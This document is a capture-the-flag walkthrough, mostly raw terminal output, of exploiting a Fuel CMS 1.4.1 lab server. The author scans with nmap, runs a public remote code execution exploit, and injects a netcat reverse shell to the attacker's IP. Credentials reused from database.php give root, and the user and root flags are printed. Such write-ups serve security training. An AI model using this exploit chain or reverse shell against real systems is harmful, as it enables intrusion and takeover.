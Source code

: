 
# Objetivo 


# Solución 
┌──(jordan㉿kali)-[~/Encender]
└─$ sudo nmap -T4 -n -sS 10.10.102.243   
[sudo] password for jordan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 16:32 CST
Nmap scan report for 10.10.102.243
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds

┌──(jordan㉿kali)-[~/Encender]
└─$ nmap -sV 10.10.102.243 -p 80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 16:33 CST
Nmap scan report for 10.10.102.243
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds


┌──(jordan㉿kali)-[~/Encender]
└─$ searchsploit cms fuel
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                    | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                    | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                    | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                   | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                          | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                              | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                            | php/webapps/50884.txt
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                                                
┌──(jordan㉿kali)-[~/Encender]
└─$ searchsploit -p 49487
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/49487
     Path: /usr/share/exploitdb/exploits/php/webapps/49487.rb
    Codes: CVE-2018-16763
 Verified: False
File Type: Ruby script, ASCII text
                                                                                                                                                                
┌──(jordan㉿kali)-[~/Encender]
└─$ searchsploit -p 47138
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
                                                                                                                                                                
┌──(jordan㉿kali)-[~/Encender]
└─$  searchsploit -p 50477
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
                                                                                                                                                                
┌──(jordan㉿kali)-[~/Encender]
└─$ 

Enter Command $rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.4.228 1234 >/tmp/f

┌──(jordan㉿kali)-[~]
└─$ nc -lvnp 1234              
listening on [any] 1234 ...
connect to [10.2.4.228] from (UNKNOWN) [10.10.102.243] 42410
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 

www-data@ubuntu:/var/www/html$ ls /home
ls /home
www-data
www-data@ubuntu:/var/www/html$ cd www-data              
cd www-data
bash: cd: www-data: No such file or directory
www-data@ubuntu:/var/www/html$ cd /home/www-data
cd /home/www-data
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
www-data@ubuntu:/home/www-data$ ^C
                                                                                                                                                                
┌──(jordan㉿kali)-[~]
└─$ 




┌──(jordan㉿kali)-[~/Encender]
└─$ python3  50477.py  -u http://10.10.102.243 

[+]Connecting...
Enter Command $rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.4.228 1234 >/tmp/f






┌──(jordan㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.4.228] from (UNKNOWN) [10.10.102.243] 42480
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ cat /var/www/html/fuel/application/config/database.php
<ml$ cat /var/www/html/fuel/application/config/database.php                  
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|       ['dsn']      The full DSN string describe a connection to the database.
|       ['hostname'] The hostname of your database server.
|       ['username'] The username used to connect to the database
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
|       ['dbdriver'] The database driver. e.g.: mysqli.
|                       Currently supported:
|                                cubrid, ibase, mssql, mysql, mysqli, oci8,
|                                odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
|       ['dbprefix'] You can add an optional prefix, which will be added
|                                to the table name when using the  Query Builder class
|       ['pconnect'] TRUE/FALSE - Whether to use a persistent connection
|       ['db_debug'] TRUE/FALSE - Whether database errors should be displayed.
|       ['cache_on'] TRUE/FALSE - Enables/disables query caching
|       ['cachedir'] The path to the folder where cache files should be stored
|       ['char_set'] The character set used in communicating with the database
|       ['dbcollat'] The character collation used in communicating with the database
|                                NOTE: For MySQL and MySQLi databases, this setting is only used
|                                as a backup if your server is running PHP < 5.2.3 or MySQL < 5.0.7
|                                (and in table creation queries made with DB Forge).
|                                There is an incompatibility in PHP with mysql_real_escape_string() which
|                                can make your site vulnerable to SQL injection if you are using a
|                                multi-byte character set and are running versions lower than these.
|                                Sites using Latin-1 or UTF-8 database character set and collation are unaffected.
|       ['swap_pre'] A default table prefix that should be swapped with the dbprefix
|       ['encrypt']  Whether or not to use an encrypted connection.
|
|                       'mysql' (deprecated), 'sqlsrv' and 'pdo/sqlsrv' drivers accept TRUE/FALSE
|                       'mysqli' and 'pdo/mysql' drivers accept an array with the following options:
|
|                               'ssl_key'    - Path to the private key file
|                               'ssl_cert'   - Path to the public key certificate file
|                               'ssl_ca'     - Path to the certificate authority file
|                               'ssl_capath' - Path to a directory containing trusted CA certificats in PEM format
|                               'ssl_cipher' - List of *allowed* ciphers to be used for the encryption, separated by colons (':')
|                               'ssl_verify' - TRUE/FALSE; Whether verify the server certificate or not ('mysqli' only)
|
|       ['compress'] Whether or not to use client compression (MySQL only)
|       ['stricton'] TRUE/FALSE - forces 'Strict Mode' connections
|                                                       - good for ensuring strict SQL while developing
|       ['ssl_options'] Used to set various SSL options that can be used when making SSL connections.
|       ['failover'] array - A array with 0 or more data for connections if the main should fail.
|       ['save_queries'] TRUE/FALSE - Whether to "save" all executed queries.
|                               NOTE: Disabling this will also effectively disable both
|                               $this->db->last_query() and profiling of DB queries.
|                               When you run a query, with this setting set to TRUE (default),
|                               CodeIgniter will store the SQL statement for debugging purposes.
|                               However, this may cause high memory usage, especially if you run
|                               a lot of SQL queries ... disable this to avoid that problem.
|
| The $active_group variable lets you choose which connection group to
| make active.  By default there is only one group (the 'default' group).
|
| The $query_builder variables lets you determine whether or not to load
| the query builder class.
*/
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
www-data@ubuntu:/var/www/html$ su root              
su root
Password: mememe

root@ubuntu:/var/www/html# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:~# 

# Notas 

